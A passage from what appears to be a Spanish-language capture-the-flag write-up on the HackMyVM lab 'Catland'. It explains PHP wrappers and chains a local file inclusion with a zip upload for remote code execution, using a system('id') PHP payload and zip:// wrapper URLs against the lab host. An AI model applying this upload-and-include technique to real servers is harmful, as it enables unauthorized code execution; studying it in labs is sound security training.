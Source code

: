 > Un wrapper en PHP simplemente es una forma de agregar funcionalidades para interactuar con recursos. Por ejemplo para jugar con archivos locales (el que estamos usando) o remotos existen wrappers, para peticiones web HTTP(S) tambien y para otras cositas.

La explotación es muy sencilla:

* Creamos un objeto `.php` con contenido malicioso.
* Creamos un objeto `.zip` (o `.rar`, yo lo haré con **zip**) que contenga ese `.php`.
* Buscamos una manera de subir archivos.
* Encontramos donde se están alojando los archivos.
* Mediante el **LFI** y los **wrappers** leemos el objeto `.php` que está dentro del `.zip`, con esto lo que hacemos es ejecutar su contenido:

  ```txt
  http://[URL]?[PARAMETRO]=zip://[NOMBRE_ARCHIVO_ZIPoRAR]#[NOMBRE_ARCHIVO_PHP_MALICIOSO]

  // Pero para que sea correctamente interpretado hay que convertir el # a URL Encode:
  http://[URL]?[PARAMETRO]=zip://[NOMBRE_ARCHIVO_ZIPoRAR]%23[NOMBRE_ARCHIVO_PHP_MALICIOSO]

  # Ejemplo en neustro caso
  http://admin.catland.hmv/user.php?page=zip://guardadito.zip%23payload.php
  ```

* Y listo, se ejecutaría el contenido malicioso del `.php` (:

Así que hagámosle...

🕐 Intentemos que nuestro archivo `payload.php` ejecute el comando `id`:

```bash
echo '<?php system("id"); ?>' > payload.php
```

🕑 Creamos el `.zip`:

```bash
zip guardadito.zip payload.php
```

🕒 Ya tenemos la manera de subir archivos, así que vamos `/upload.php` y subimos el `.zip`.

🕓 También tenemos la ruta donde están siendo alojados los objetos subidos: `/uploads/`.

🕔 EJECUTAMOS EL RCE con ayuda de los wrappers y el LFI:

```html
http://admin.catland.hmv/user.php?page=zip://guardadito.zip%23payload.php
```

Peeero no obtenemos nada:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/catland/Catland_page80admin_userPHP_wrapperZIP_fail.png" style="width: 80%;"/>

Solo que entre las pruebas, si llamamos al archivo `.zip` sin wrappers obtenemos:

```html
http://admin.catland.hmv/user.php?page=uploads/guardadito.zip
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/catland/Catland_page80admin_userPHP_WITHOUTwrapperZIP_RCE_id_done.png" style="width: 80%;"/>
